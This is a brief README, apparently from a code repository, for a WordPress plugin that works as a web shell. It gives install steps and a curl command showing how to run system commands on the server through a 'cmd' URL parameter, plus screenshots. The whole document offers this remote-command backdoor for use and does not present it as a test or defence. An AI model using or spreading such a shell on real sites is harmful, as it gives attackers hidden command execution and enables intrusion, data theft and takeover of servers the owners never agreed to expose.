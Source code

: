 # Webshell Plugin Wordpress

## Usage
1 - Clone this repository and install the `wp_webshell.zip` plugin on your WordPress instance.
<img width="984" height="116" alt="IMG" src="https://github.com/user-attachments/assets/4ed64787-14a4-46f7-be66-84e9c4167012" />

2 - Use the web shell from the browser or terminal.
```bash
curl http://example.com/wp-content/plugins/wp_webshell/wp_webshell.php?cmd=id
```
<img width="838" height="72" alt="IMG" src="https://github.com/user-attachments/assets/4fd9260b-b448-441c-938a-e5c6248dc9b2" />
